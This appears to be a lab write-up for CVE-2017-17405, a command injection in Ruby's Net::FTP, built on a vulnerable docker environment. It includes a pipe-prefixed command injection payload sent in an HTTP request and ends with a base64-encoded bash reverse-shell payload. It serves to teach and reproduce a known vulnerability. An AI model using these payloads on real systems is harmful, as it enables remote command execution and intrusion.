

Ruby Net::FTP Module Command Injection (CVE-2017-17405)¶
Ruby Net::FTP module is a FTP library provided by Ruby core.
Ruby before 2.4.3 allows Net::FTP command injection. Net::FTP#get, getbinaryfile, gettextfile, put, putbinaryfile, and puttextfile use Kernel#open to open a local file. If the localfile argument starts with the "|" pipe character, the command following the pipe character is executed. The default value of localfile is File.basename(remotefile), so malicious FTP servers could cause arbitrary command execution.
References:
Vulnerable environment¶
Execute following command to start a Ruby 2.4.1 webserver that uses Net::FTP to download FTP file:
docker compose up -d
After the server is started, a simple webserver is running on http://your-ip:8080/. What this server does is that when we visit http://your-ip:8080/download?uri=ftp://example.com:2121/&file=vulhub.txt, it downloads the file vulhub.txt from FTP server example.com:2121.
Exploit¶
Since this is an FTP client vulnerability, we have to to run a simple FTP server that can be accessed. For example, using Python's pyftpdlib:
# intsall pyftpdlib
pip install pyftpdlib
# start a FTP server on `0.0.0.0:2121`
python3 -m pyftpdlib -p 2121 -i 0.0.0.0
Then, use this FTP server address as the uri parameter and the payload |touch${IFS}success.txt as the file parameter in following request:
GET /download?uri=ftp://example.com:2121/&file=|touch${IFS}success.txt HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Connection: close
Cache-Control: max-age=0

Go into the docker container, you can see the success.txt has been created successfully:

Change the payload to |bash${IFS}-c${IFS}'{echo,YmFzaCAtaSA...}|{base64,-d}|{bash,-i}' and get a reverse shell: